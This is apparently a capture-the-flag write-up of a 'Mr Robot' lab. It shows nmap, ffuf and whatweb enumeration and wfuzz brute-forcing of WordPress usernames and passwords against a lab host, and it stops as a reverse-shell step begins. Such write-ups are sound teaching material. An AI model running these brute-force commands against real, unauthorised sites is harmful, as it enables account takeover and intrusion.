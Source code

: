 # Nmap
After we ping the target we see that the ttl is 63, we might probably dealing with a Linux hosts (since this is most of the time the case). It might still be antohter OS.
[Here's] a list with the different OSes and their ttl's.


We start off with a TCP ports scan for all ports. In these challenges I tend to speed things up by using a minimum rate of 2000. In real life i might go slower later on because I might miss some ports.


```sh
┌──(kali㉿kali)-[~/THM/MR_ROBOT/recon/nmap]
└─$ nmap 10.10.22.96 --min-rate 2000 -p- -oA init  
```
## Nmap Results
```zsh
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```

## NMAP Version and Script
We continue with scanning the open ports we found with checking the versions (-sV) and using the default set of scripts (-sC). 
Some of these default scripts might be intrusive and might not be allowed in a real engagement.

In this scenario the default ssh-scripts are catagorized as `safe`. (`ssh-auth-methods` script is `intrusive`)
- [ssh-hostkey](https://nmap.org/nsedoc/scripts/ssh-hostkey.html)
- [sshv1](https://nmap.org/nsedoc/scripts/sshv1.html)



## Safe means
>Scripts which weren't designed to crash services, use large amounts of network bandwidth 
>or other resources, or exploit security holes are categorized as safe. These are less likely to offend remote administrators, though (as with all other Nmap features) we cannot guarantee that they won't ever cause adverse reactions. Most of these perform general network discovery...

I could not found different default scripts for http and https. Anyway let's enumerate using the above command

```zsh
nmap 10.10.22.96 --min-rate 2000 -p22,80,443 -sC -sV -oA openscsv -vv
```



```zsh
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c163b1987c342ad6634c1c9d0aafb97
| SHA-1: ef0c5fa5931a09a5687ca2c280c4c79207cef71b
| -----BEGIN CERTIFICATE-----
<LEFT OUT FOR READABILITY>
|_-----END CERTIFICATE-----
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

Strange in the output it doesn't give the robots.txt which I found with manually. Anyone knwos this problem

# Port 80,443 HTTP(S)
When visiting the website we see some obscure message about the chipping away of my existence. Not really caring about that at the moment but it adds nice up to the theme.
Below the message we find a shell with some limited commands listed. I did not find any other command working. Running the commands doesn't seem to give me lot's of infomration.
Maybe come back to it later

## Mr Robot robots.txt
In the robots.txt file we find the following dissalowed files and directories:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

We can open them since we are not a robot, at least I'm not 🤖.
The `key-1-of-3.txt` contains a flag. I guess the first one of three. This seems to be the correct flag when we submit it on the panel!
`User-agent: *` Means that these entries apply to all user-agents. We download and open the `fsocity.dic` file. It is a huge list, containing 858160 entries, with seemingly random words.
Maybe this is useful for user, passwords and directory bruteforcing.

## Enumeration whit Whatweb
Next we will use the tool `whatweb` to enumerate the different versions and software used by the page:
>WhatWeb identifies websites. It recognises web technologies including content management systems (CMS), blogging platforms, 
>statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
This is what whatweb does.

```zsh
whatweb http://10.10.22.96:80 -v -a1 
```
Some info in the results
```zsh
Summary   : Apache, HTML5, HTTPServer[Apache], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]
```
## Directory and file fuzzing with ffuf

```zsh
 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.22.96/FUZZ -of all -o dirs80.html     -e .txt,.php,.html -c 
```
So robots.txt is showing up now.

## WP-login
In the results of ffuf we find the `/wp-login.php` file. We know that this is a wordpress site which was not found by whatweb.
To login to the page we need both a username and a password. I did look in the information of the page running different command but I did not found a name.
So let's switch to the `fsocity.dic` to check if there is a valid username.

I'm using the tool `wfuzz` for this. You could also use `hydra` with the `http-form-post`. But I just find the `wfuzz` syntax a bit better:
```zsh
wfuzz -c -w ~/Downloads/fsocity.dic --hs Invalid -d "log=FUZZ&pwd=password&wp-submit=Log In"" -u http://10.10.22.96/wp-login.php
```
What does this mean:
--c: simply output with colors
--w the wordlist we are using
---hs We hide all responses with this regex
--d is the post data
--u is the url we are requesting

How do we get the right data parameters? On the `/wp-login.php` page we can just simply right click in the page and view the page source.
We will look for the names of the username and password entry field and the submit button.

```html


<form name="loginform" id="loginform" action="http://10.10.22.96/wp-login.php" method="post">
	<p>
		<label for="user_login">Username<br/>
		<input type="text" name="log" id="user_login" aria-describedby="login_error" class="input" value="Elliot" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" id="user_pass" aria-describedby="login_error" class="input" value="" size="20"/></label>
	</p>
		<p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"/> Remember Me</label></p>
	<p class="submit">
		<input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="Log In"/>
		<input type="hidden" name="redirect_to" value="http://10.10.22.96/wp-admin/"/>
		<input type="hidden" name="testcookie" value="1"/>
	</p>
</form>
```

Here we see the names `log` for the username and `pwd` for the password. Lastly the name of the submit button is `wp-submit` and the value we give it is `Log In`. We could also capture the request with burp and get the post parameters from there.

The regex we want to hide is the message we get when posting a invalid username. We can just put a random name in the field. We can put the whole message or just part of it as a value of the `--hs` flag.

![Invalid](Invalid.png)

## Wfuzz results
```zsh
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.22.96/wp-login.php
Total requests: 858160

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                     
=====================================================================

000000015:   200        58 L     194 W      3635 Ch     "Elliot"     
```

Bingo we found a username! Let's try bruteforcing the password with hydra. The syntax is similar.

```zsh
wfuzz -c -w ~/Downloads/fsocity.dic --hs incorrect -d "log=Elliot&pwd=FUZZ&wp-submit=Log In" -u http://10.10.22.96/wp-login.php 
```

That took a while and got me hesitating. Usualy it doesn't take so long. So I check another walkthrough (cheating) after I could not find any additional information.

#  Exploiting Wordpress
Now we are able to login to the wordpress dashboard

There are several ways to exploit the wordpress dashboard and get a reverse shell. The easiest way that  I like is to add php code to a theme.

1. Go to `Appearance` -> `editor`






